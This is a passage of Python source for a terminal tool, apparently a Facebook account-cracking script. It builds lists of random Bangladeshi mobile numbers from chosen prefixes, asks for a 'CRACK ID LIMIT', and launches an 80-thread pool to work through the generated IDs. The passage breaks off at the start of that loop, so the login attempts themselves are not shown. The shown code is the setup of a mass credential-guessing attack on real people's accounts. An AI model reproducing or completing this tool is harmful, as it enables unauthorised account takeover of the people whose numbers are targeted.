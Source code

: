     sh = input("\033[0;97m[\033[38;5;208m?\033[0;97m]\033[0;97mCHOOSE : ")
    if sh =='1':
       os.system(' ')
       sh6()
    if sh =='2':
       os.system(' ')
       sh7()
    if sh =='3':
       os.system('xdg-open https://www.facebook.com/profile.php?id=100000406329631')
       main()  

        
    
def sh6():
    user=[]
    
    os.getuid
    os.geteuid
    clear()
    banner()
    print(f"             {H} SIM {K}CODE{P}  ");time.sleep(0.05)
    print("\033[38;5;46m•\033[38;5;196m•\033[1;35m•\033[1;34m•\033[1;33m•\033[1;32m•\033[1;97m•\033[38;5;196m•\033[38;5;46m•\033[1;35m•\033[1;34m•\033[1;33m•\033[1;32m•\033[1;97m•\033[38;5;196m•\033[38;5;46m•\033[1;32m•\033[1;35m•\033[1;34m•\033[1;97m•\033[1;33m•\033[38;5;196m•\033[1;35m•\033[1;34m•\033[1;33m•\033[1;32m•\033[1;97m•\033[38;5;196m•\033[38;5;46m•\033[38;5;196m•\033[1;32m•\033[1;97m•\033[1;35m•\033[1;34m•\033[1;33m•\033[38;5;46m•\033[1;97m•")
    print(f'\033[1;92mBD CODE: \033[1;97m016 , 017 , 019 , 018 , 014')
    print("\033[38;5;46m•\033[38;5;196m•\033[1;35m•\033[1;34m•\033[1;33m•\033[1;32m•\033[1;97m•\033[38;5;196m•\033[38;5;46m•\033[1;35m•\033[1;34m•\033[1;33m•\033[1;32m•\033[1;97m•\033[38;5;196m•\033[38;5;46m•\033[1;32m•\033[1;35m•\033[1;34m•\033[1;97m•\033[1;33m•\033[38;5;196m•\033[1;35m•\033[1;34m•\033[1;33m•\033[1;32m•\033[1;97m•\033[38;5;196m•\033[38;5;46m•\033[38;5;196m•\033[1;32m•\033[1;97m•\033[1;35m•\033[1;34m•\033[1;33m•\033[38;5;46m•\033[1;97m•")
    print("")

  #  linex()
    code = input(f' CHOOSE :{H} ')
    os.system("clear")
    banner()
    print(f"")
    print(f'{P}[{H}√{P}] EXAMPLE    : {K}5000/10000/20000')
    print(f"")
    limit = int(input(f'%s[%s?%s] CRACK ID LIMIT : %s'%(N,K,N,H)))
    for nmbr in range(limit):
        nmp = ''.join(random.choice(string.digits) for _ in range(6))
        user.append(nmp)
    with ThreadPool(max_workers=80) as manshera:    
        clear()
        banner()
        tl = str(len(user))
        print(f"\033[38;5;46m•\033[38;5;196m•\033[1;35m•\033[1;34m•\033[1;33m•\033[1;32m•\033[1;97m•\033[38;5;196m•\033[38;5;46m•\033[1;35m•\033[1;34m•\033[1;33m•\033[1;32m•\033[1;97m•\033[38;5;196m•\033[38;5;46m•\033[1;32m•\033[1;35m•\033[1;34m•\033[1;97m•\033[1;33m•\033[38;5;196m•\033[1;35m•\033[1;34m•\033[1;33m•\033[1;32m•\033[1;97m•\033[38;5;196m•\033[38;5;46m•\033[38;5;196m•\033[1;32m•\033[1;97m•\033[1;35m•\033[1;34m•\033[1;33m•\033[38;5;46m•\033[1;97m•")
        print(f"{P}[{H}•{P}]{WHITE}WElCOME  MY TOOLS     : {GREEN}"+name)
        print(f"{P}[{H}•{P}]{WHITE}TOTAL IDZ             : {GREEN}"+tl)
        print(f"{P}[{H}•{P}]{WHITE}NUMBER YOU PUT        : {GREEN}"+code)
        print(f"{P}[{H}•{P}]{WHITE}TO STOP PROCESS Ctrl + Z ")
        print(f"\033[38;5;46m•\033[38;5;196m•\033[1;35m•\033[1;34m•\033[1;33m•\033[1;32m•\033[1;97m•\033[38;5;196m•\033[38;5;46m•\033[1;35m•\033[1;34m•\033[1;33m•\033[1;32m•\033[1;97m•\033[38;5;196m•\033[38;5;46m•\033[1;32m•\033[1;35m•\033[1;34m•\033[1;97m•\033[1;33m•\033[38;5;196m•\033[1;35m•\033[1;34m•\033[1;33m•\033[1;32m•\033[1;97m•\033[38;5;196m•\033[38;5;46m•\033[38;5;196m•\033[1;32m•\033[1;97m•\033[1;35m•\033[1;34m•\033[1;33m•\033[38;5;46m•\033[1;97m•")
        for love in user: